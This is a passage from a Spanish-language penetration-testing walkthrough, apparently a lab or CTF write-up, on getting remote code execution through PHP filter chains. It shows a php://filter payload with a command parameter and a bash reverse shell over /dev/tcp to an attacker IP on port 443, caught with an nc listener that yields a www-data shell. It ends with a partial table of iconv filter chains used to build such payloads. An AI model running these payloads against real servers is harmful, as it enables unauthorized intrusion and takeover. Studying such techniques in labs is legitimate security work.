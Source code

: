 ```URL
ecode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&cmd=id
```

**Nota:** con `&cmd=id` podemos inyectar comandos de forma cómoda.

Acción 7: 

```URL
...&cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.52/443 0>%261"
```

```bash
nc -nlvp 443
listening on [any] 443 ...

www-data@131621f61088:/var/www/html$ whoami
www-data
```

Explicación: ganamos acceso al servidor de forma remota en la máquina atacante, se podría ahora tratar de elevar privilegios si procede y mejorarnos la shell con una tty

---
# Recursos

## Filter Chains

    '0': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2',
    '1': 'convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4',
    '2': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921',
    '3': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE',
    '4': 'convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE',
    '5': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2',
    '6': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.CSIBM943.UCS4|convert.iconv.IBM866.UCS-2',
    '7': 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4',
    '8': 'convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB',
    'A': 'convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213',
    'a': 'convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE',
    'B': 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000',
    'b': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    'c': 'convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2',
    'D': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213',
    'd': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5',
    'E': 'convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT',
    'e': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937',
    'F': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB',
    'f': 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
    'g': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8',
